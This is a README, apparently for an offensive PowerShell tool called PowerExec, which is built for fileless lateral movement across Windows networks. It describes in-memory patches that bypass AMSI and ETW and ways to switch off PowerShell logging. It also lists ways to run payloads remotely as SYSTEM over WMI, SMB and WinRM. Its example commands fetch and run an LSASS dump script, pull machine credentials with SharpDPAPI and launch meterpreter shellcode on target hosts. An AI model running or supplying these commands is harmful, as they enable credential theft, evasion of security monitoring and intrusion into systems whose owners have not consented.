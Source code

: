 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                                            |
| --------------- | ---------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                 |
| CimService      | Create temporary service running as NT AUTHORITY\SYSTEM via WMI        |
| CimSubscription | Create temporary WMI event subscription (experimental)                 |
| CimTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via WMI |
| SmbService      | Create temporary service running as NT AUTHORITY\SYSTEM via SMB        |
| WinRM           | Run powershell via Windows Remote Management                           |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass AMSI,PML,SBL
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers -Threads 10
```

Run a .NET assembly through WinRM while bypassing AMSI and ETW:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -ComputerList 192.168.1.1,192.168.1.2
```

Run a shellcode through a service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/

